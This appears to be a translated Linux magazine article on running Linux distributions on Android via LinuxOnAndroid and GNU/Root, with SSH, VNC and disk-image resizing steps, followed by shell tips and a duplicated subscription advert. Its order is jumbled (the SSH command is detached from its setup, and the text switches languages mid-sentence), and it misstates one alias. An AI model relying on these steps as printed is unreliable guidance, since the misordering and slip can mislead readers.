在 shell 中并输入 root 用户的新密码。如果你已要求 LinuxOnAndroid 在启动发行版时启动 SSH 服务器，现在可以从网络上的任何计算机连接到它。输入

```
ifconfig
```

命令在 Android 设备的终端中，这将打印设备的 IP 地址，例如 192.168.2.101

要连接到设备，请在另一台计算机上启动终端并输入


> 安装程序需要 BusyBox，它将在首次启动时自动安装。

## 在未 root 的设备上运行 Linux

你可以在未 root 的 Android 设备上运行 Linux，这要归功于 GNU/Root 应用。尽管名字如此，该应用并不需要 root 权限的手机。CompleteLinuxInstaller 和 GNU/Root 之间最大的区别在于，后者仅为你提供 Linux 发行版的命令行界面访问权限。

要通过 GNU/Root 在 Android 设备上运行 Linux，你需要从 Play 商店获取它，以及特定 Linux 发行版的配套应用。该应用为流行的发行版，如 Debian、Gentoo 和 Fedora 生产配套应用。请记住，这些应用的大小接近 100MB，而 GNU/Root 应用仅有几 KB。

安装两者后，启动 GNU/Root 并使用页面顶部的下拉菜单选择你希望启动的发行版。

确保你已下载其配套应用。然后点击创建新 Roots 按钮以安装发行版，这将花费一些时间，具体取决于设备的资源。

完成后，点击启动 Roots 按钮，这将打开一个终端并登录到发行版。如果你启动发行版前选中启动为伪 Root 复选框，你将以超级用户权限登录。


> 使用 GNU/Root 启用发行版的 CLI 包管理器工具的使用。开发者目前正在努力为桌面提供图形界面。

```
ssh ubuntu@192.168.2.101
```

这将提示你输入 ubuntu 用户的密码，该密码是在你首次启动该发行版时设置的。

要查看在 Android 设备上运行的 Linux 发行版之上的图形桌面，请点击主屏幕按钮最小化终端应用，然后点击并启动 VNC 应用（例如 androidVNC）。

VNC 应用会提示你输入各种设置，以便连接到设备上运行的发行版。在要求输入 VNC 服务器 IP 地址的字段中输入 localhost，并在端口中输入 5900。除此之外，你还需要一个密码来验证 VNC 服务器。这因发行版而异。对于 Ubuntu 镜像，密码是 ubuntu。对于 Arch Linux 是 archlinux，对于 Debian 系列是 debian，依此类推。密码列在 LinuxOnAndroid 项目网站上该发行版的 wiki 页面上。

请注意，如果你使用的是 androidVNC，应用建议将颜色格式更改为 24 位色（4bpp）。在输入所有信息后，点击 Connect 按钮启动 VNC 会话，然后瞧！VNC 客户端将连接到你的设备并显示在你当前运行的发行版内部运行的图形桌面。

同样，应用开发者建议 androidVNC 用户将输入模式更改为触控板。为此，在 VNC 会话内部点击菜单按钮。这会弹出许多选项；你需要点击 Input Mode，然后从支持的输入模式列表中选择 Touchpad 单选按钮。

现在你可以像在 PC 上一样与桌面交互和操作。在 androidVNC 应用中，单击一次相当于左键单击。双击可模拟右键单击。

你也可以使用包管理器安装新应用。请记住，发行版只能安装已移植到 ARM 架构的应用，而几乎所有流行应用都已移植。

完成后，通过注销桌面关闭 VNC 会话。现在下拉应用抽屉并点击在后台运行的终端会话。输入 `exit` 以关闭 Linux 发行版。当发行版关闭时，你需要再输入几次 `exit` 命令以退出并关闭终端会话。

## 高级调整

你可以使用上面描述的步骤下载、设置、启动和使用设备上支持的任何发行版。然而，该应用还提供其他选项来进一步自定义发行版并调整你的用户体验。

首先，你可能希望更改首次启动时指定的发行版的设置。为此，从 Launch 部分的下拉列表中选择你希望自定义的发行版。除了 Start Linux 按钮外，你还会看到 Configure Linux 按钮。点击它以调出设置页面。在这里你会找到用于启用和禁用 SSH 和 VNC 服务器启动的复选框。你还可以通过更改此页面上列出的值来修改 VNC 屏幕的分辨率。

该页面提供一些有趣的选项，包括 Create 1GB SWAP File 复选框。正如你所想象的，启用此选项后，应用将为发行版创建一个交换文件。在启用此选项之前，请确保你的 SD 卡上有足够的可用空间。

该应用还可以将 Android 文件系统中的文件夹挂载到正在运行的 Linux 中。点击 Configure


Mounts 按钮以启动挂载编辑器。点击右上角的 Options，然后点击 Add Mount 选项。这会弹出一个页面，你需要在其中手动指定要共享的 Android 文件夹的位置（例如 `/storage/sdcard0/Downloads`），然后指定要将其挂载到的路径（例如 `/home/ubuntu/Downloads`）。你可以添加任意多个文件夹。完成后点击 Save Changes 按钮并退出挂载编辑器。

现在启动发行版时，LinuxOnAndroid 将在发行版内部的指定位置挂载列出的 Android 文件夹。

根据你使用发行版的方式，迟早你会在镜像中用完空间。在这种情况下，你需要制作一个更大的镜像并将现有镜像内部的所有文件和文件夹复制到新镜像中。

首先启动一个终端并创建一个你想要大小的空白镜像。例如，命令


```
dd if=/dev/zero of=ubuntuNEW.img bs=1M count=0 seek=4096
```

将创建一个名为`ubuntuNEW.img`的 4GB 镜像。然后你需要格式化此新镜像并创建文件系统。命令

```
mkfs.ext4 -F ubuntuNEW.img
```

应该可以解决问题。然后将你想要扩大的镜像文件从设备复制到你的电脑。我们称之为`ubuntuOLD.img`。现在在你的桌面上创建两个文件夹（`ubuntuNEW`和`ubuntuOLD`）来挂载这些镜像。命令

```
sudo mount -o loop ubuntuOLD.img ubuntuOLD/
```

和

```
sudo mount -o loop ubuntuNEW.img ubuntuNEW
```

将把镜像挂载到各自的文件夹中。完成后，将所有文件从旧镜像复制到新镜像。命令

```
sudo cp -rp ubuntuOLD/* ubuntuNEW
```

将确保文件和文件夹连同其所有权权限一起被复制。通过简单地使用以下命令卸载镜像来完成整个过程

```
sudo umount ubuntuOLD
```

和

```
sudo umount ubuntuNEW
```

现在你可以将`ubuntuNEW.img`文件传输到你的手机，删除现有镜像，并确保 Launch 屏幕中的发行版条目指向新镜像。

> 请确保你的 Android 设备使用 ARM V7 CPU，因为大多数发行版仅支持该特定 ARM 架构。

## 快速提示

要删除一个发行版，请确保它未在使用中，然后删除包含相关 `IMG` 文件的文件夹。

## Terminal：省时技巧

终端有一系列方便的小技巧，可以帮你节省时间，让生活更轻松。我们向你介绍其中一些最有用的技巧。

前面我们提到过，使用终端比使用图形界面更快、更高效，尤其是在重复操作时。为了充分利用这一点，了解一些 shell 的秘密会很有帮助。

你是否经常一遍又一遍地输入相同的命令选项？你是否有时记不住正确的选项？你是否只是懒得打字，想尽可能避免输入？如果你对以上任何一个问题的回答是肯定的，那么别名就是为你准备的。你已经设置了一些 shell 别名。要列出它们，输入：

```
alias
```

它会返回类似这样的条目（来自 Ubuntu）：

```
alias ll='ls -alF'
alias ls='ls --color=auto'
```

第一个例子很简单——如果你输入 `ll`，它会运行 `ls -A`。第二个很巧妙，因为别名与命令名相同，所以旧的 `ls` 行为消失了，它总是带上 `--color=auto` 选项运行。如果你发现自己总是对某些命令使用特定的选项，像这样的别名实际上就把这些选项设为了默认值。别名在命令行的其余部分被解释之前就会展开，所以：

```
ll X Y Z
becomes
ls -alF X Y Z
```

这些别名并不总是容易记住，但不用担心——你可以使用与 `alias` 命令输出中完全相同的语法创建自己的别名：

```
alias myalias='somecommand --option1 --option2'
```

将命令别名为其自身名字是个不错的技巧，但如果之后你需要使用原始命令怎么办？不用担心——开发者已经考虑到了这一点。在命令前加上`\`，你的别名就会被忽略。

## Profiles

你可以通过别名和自定义提示来定制终端体验，但要让它们更方便，你需要一种在打开终端时自动应用这些设置的方法。这可以通过你的配置文件来实现，配置文件是一个包含命令的文件，每当你打开一个 shell 会话时，这些命令就会被读取并运行。

有多个位置会被读取，其中第一个是`/etc/profile`，其中包含全局配置文件设置。它又会运行`/etc/profile.d`中的任何文件，这使得在不触及默认配置文件的情况下添加全局设置变得很容易。然后用户的配置文件会从`~/.bash_profile`、`~/.bash_login`和`~/.profile`中读取。只有其中第一个存在的文件会被运行，并且这里的任何设置如果在全局配置文件中也被设置过，则会覆盖全局配置文件的设置。

配置文件只是一组 shell 命令，每行一个，在 shell 启动时运行。它们可以设置别名、环境变量或设置命令提示符。环境变量的一个典型用途是更改默认文本编辑器为`nano`：

```
EDITOR=/usr/bin/nano
```

## Word completion

如果你像我一样不是一个特别自信的盲打用户，你很快就会厌倦完整输入命令和文件名，然后处理因拼写错误而产生的错误信息。幸运的是，shell 为我们提供了一种既能节省输入又能避免错误的方法，叫做制表符补全。

名字相当自解释——它使用 Tab 键来补全你正在输入的词。如果这是行中的第一个词，它将是一个命令，所以它会在命令路径中查找匹配项，例如输入 `chm` 然后按 Tab 会补全为 `chmod`。在命令之后使用时，Tab 会对文件名进行补全，因此你不必输入：

```
cat /path/to/somelongdirectory/someevenlongerfilename.txt
```

你可以使用：

```
cat /path/to/somelongdirectory/someevenlongerfilename[TAB]
```

是不是更简单？当多个文件匹配时，Tab 键会补全到变得不明确为止，在此点再次按下 Tab 会显示选项列表，你可以通过 Tab 在其中循环，或添加另一个 letter or two and press tab again. It is actually a lot easier to use than describe – just try it.


别名可以节省你的输入，并让你使用更易记的命令缩写。你自己选择它们，所以你没有忘记的借口！

## Wild, wild cards


There are times you want to include more than one file in a command, but don’t want to type them all out. The Linux shell has a couple of ‘wildcard’ operators to help with this. The most used one is the star, which is used as a replacement for any string of characters. So `*` on its own will match every file in the current directory (that this is different from MS-DOS shells where `*` does not match `.` and you need to use `*.*` to match any file with an extension). You can also use `*` to match one part of a file name. `*.txt` matches all files that end with `.txt` and `a*.txt` only matches those that also start with `a`. This matching is performed by the shell. It expands the matches to a list of files before passing them to the command, which never sees the wildcard or even knows that you used one. This can be an important distinction, especially if you want to pass a `*` to the program you’re running. For example, if you’re using `scp` to copy files from a remote computer and run: `scp user@othercomputer/Documents/*.txt Documents/` you may expect it to copy all `.txt` files from the other computer’s Documents directory to the same one here, but it won’t. The shell expands the `*.txt` to match all `.txt` files on the local system, so you only copy the files you already have. In such an instance, you need to tell the shell not to expand the `*` by preceding it by a backslash, known as escaping it: `scp user@othercomputer/Documents/\*.txt Documents/` Now it passes Documents/*.txt unchanged to the remote computer and lets its shell handle the expansion.

There’s a second wildcard character, too. While `*` matches any number of characters, including none, `?` matches exactly one. So `ab?.txt` matches `abc.txt` and `ab1.txt` but not `ab.txt` or `abcd.txt`, whereas `ab*.txt` would match all of them.

## Bring on the substitute

There is a powerful feature in shells called command substitution. This allows you to embed the output from one command in another. As a simple example, there is a command called `foo` on your system and let’s say you want to know what type of program it is: compiled, Python or even a shell script. The `which` command gives you the path to a program, and `file` reports the type of a file. You could use: `which foo` to get `/usr/local/bin/foo` and then `file /usr/local/bin/foo` to get the file type, but even with copy and paste, this is a lot of work and easy to mistype. Alternatively, you could do: `file $(which foo)` `/usr/local/bin/foo`: a `/usr/bin/perl` script, ASCII text What happens is that the shell runs whatever is inside `$(...)` and substitutes the output from that into the command line before running it. You can also use backticks for this: `file \`which foo\`` This is quicker to type but less readable, especially when posted to a forum where the reader’s font can make ‘ and ` look similar. With the first format there is no such confusion.

One of the great advantages of the shell is that it’s simple to repeat commands, no matter how complex, with a couple of keypresses. At its simplest, you can press the Up key to show previous commands, then press Enter to run your chosen one again. You can also edit the command before running it, if you like. That’s fine if you want to use one of the last few commands you ran, but most shells keep a history of the last 500 or so commands that you can access again.

## Please repeat that


To avoid wearing out your keyboard’s Up arrow key (and your eyes), press `Ctrl-R` and then type in part of the command. The terminal will show you the most recent command that matches what you are typing, updating with each keypress. If you have run several very similar commands, you don’t need to keep typing – just type a few characters and press `Ctrl-R` again to see the previous match. Keep going until you find the one you want. (Don’t be alarmed – this is one of those things that takes far longer to describe than to actually do.) You can edit the command before running it. The search term that you type in doesn’t have to be the command itself – any part of the command line will match, so you could start with the file name.

You can also access commands within the history directly. The `!` character tells the shell that you are referring to its history. `!!` is a shortcut for the previous command while `!-n` means ‘execute the command run `n` commands ago’ (so `!!` is the same as `!-1`). `!xyz` runs the last command starting with `xyz`, and `!?xyz` does the same for the last command containing `xyz` (much the same as `Ctrl-R` does).


> As the name suggests, tab completion lets you use the Tab key to complete the word you’re typing, helping save time and avoid mistakes.


> The `history` command shows recently executed commands, use `!` and `Ctrl-R` to find and run again the commands you used before.

## 最高优惠达 57%

- 在这个圣诞节送出完美礼物 -

凭借我们丰富的图书种类，您一定能为那位特别的人找到完美的礼物

最高优惠达 45%

起价 £25.49

最高优惠达 40%

起价 £25.49

最高优惠达 70%

起价 £15.99

最高优惠达 45%

起价 £23.49

最高优惠达 50%

起价 £23.49

最高优惠达 57%

起价 £15.99

最高优惠达 55%

起价 £12.99

最高优惠达 40%

起价 £17.99

最高优惠达 35%

起价 £22.49

最高优惠达 50%

起价 £20.99

最高优惠达 50%

起价 £21.49

最高优惠达 40%

起价 £25.49

- 最高可优惠 57% 的封面价

- 价格已包含配送费

- 超过 45 本杂志，涵盖汽车、电影、音乐、科技、游戏等

- 免费赠送可个性化定制的礼品卡，用于[content]

## 最高优惠达 57%

- 在这个圣诞节送出完美礼物 -

凭借我们丰富的图书种类，您一定能为那位特别的人找到完美的礼物

最高优惠达 45%

起价 £25.49

最高优惠达 40%

起价 £25.49

最高优惠达 70%

起价 £15.99

最高优惠达 45%

起价 £23.49

最高优惠达 50%

起价 £23.49

最高优惠达 57%

起价 £15.99

最高优惠达 55%

起价 £12.99

最高优惠达 40%

起价 £17.99

最高优惠达 35%

起价 £22.49

最高优惠达 50%

起价 £20.99

最高优惠达 50%

起价 £21.49

最高优惠达 40%

起价 £25.49

- 最高可优惠 57% 的封面价

- 价格已包含配送费

- 超过 45 本杂志，涵盖汽车、电影、音乐、科技、游戏和更多

- 免费赠送可个性化定制的礼品卡，用于宣布您的礼物

- 众多商品价格低于 £20

- 另外！海外订阅额外优惠 20%

## 2 种便捷订购方式

`myfavouritemagazines.co.uk/Z501`

或致电 0844 848 2852

引用代码 `Z501`

服务时间 周一至周五 9am – 9:30pm 和周六 8am – 4pm
